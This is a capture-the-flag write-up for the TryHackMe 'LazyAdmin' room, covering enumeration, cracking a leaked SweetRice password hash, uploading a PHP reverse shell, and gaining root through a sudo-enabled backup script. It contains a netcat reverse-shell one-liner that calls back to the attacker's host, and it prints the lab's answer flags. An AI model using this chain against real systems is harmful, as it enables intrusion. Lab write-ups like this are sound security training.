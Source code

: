 # LazyAdmin

Easy linux machine to practice your skills

[LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Topic's

- Network Enumeration
- Web Enumeration
- Backup Poking
- Brute Forcing (Hash)
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Lazy Admin

Have some fun! There might be multiple ways to get user access.

`Note: It might take 2-3 minutes for the machine to boot`

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo nmap -A -sS -sC -sV -O 10.10.230.157
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 18:57 CEST
Nmap scan report for 10.10.230.157
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/14%OT=22%CT=1%CU=33945%PV=Y%DS=2%DC=T%G=Y%TM=5F872E
OS:0B%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=B)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   72.64 ms 10.8.0.1
2   72.70 ms 10.10.230.157

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.74 seconds
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157 -w /usr/share/dirb/wordlists/common.txt -e html,php

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_18-58-34.log

Target: 10.10.230.157

Output File: /opt/dirsearch/reports/10.10.230.157/_20-10-14_18-58-34.txt

[18:58:34] Starting:
[18:58:39] 301 -  316B  - /content  ->  http://10.10.230.157/content/
[18:58:41] 200 -   11KB - /index.html
[18:58:45] 403 -  278B  - /server-status

Task Completed
```

[http://10.10.230.157/content/](http://10.10.230.157/content/)

![](./2020-10-14_18-59.png)

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157/content -w /usr/share/dirb/wordlists/common.txt -e html,php
[sudo] password for kali:

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_19-01-38.log

Target: 10.10.230.157/content

Output File: /opt/dirsearch/reports/10.10.230.157/content_20-10-14_19-01-38.txt

[19:01:38] Starting:
[19:01:39] 301 -  324B  - /content/_themes  ->  http://10.10.230.157/content/_themes/
[19:01:42] 301 -  319B  - /content/as  ->  http://10.10.230.157/content/as/
[19:01:42] 301 -  327B  - /content/attachment  ->  http://10.10.230.157/content/attachment/
[19:01:47] 301 -  323B  - /content/images  ->  http://10.10.230.157/content/images/
[19:01:48] 301 -  320B  - /content/inc  ->  http://10.10.230.157/content/inc/
[19:01:48] 200 -    2KB - /content/index.php
[19:01:48] 301 -  319B  - /content/js  ->  http://10.10.230.157/content/js/

Task Completed
```

LOGIN: [http://10.10.230.157/content/as/](http://10.10.230.157/content/as/)

[http://10.10.230.157/content/inc/](http://10.10.230.157/content/inc/)

[http://10.10.230.157/content/inc/mysql_backup/](http://10.10.230.157/content/inc/mysql_backup/)

```sql
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

`42f749ade7f9e195bf475f37a44cafcb md5 Password123`

`manager:Password123`

[http://10.10.230.157/content/as/?type=media_center](http://10.10.230.157/content/as/?type=media_center)

`http://10.10.230.157/content/attachment/php-reverse-shell.phtml`

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 55546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:09:00 up 13 min,  0 users,  load average: 0.01, 0.08, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 58634
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

1. What is the user flag?

`THM{63e5bce9271952aad1113b6f1ac28a07}`

2. What is the root flag?

`THM{6637f41d0177b6f37cb20d775124699f}`
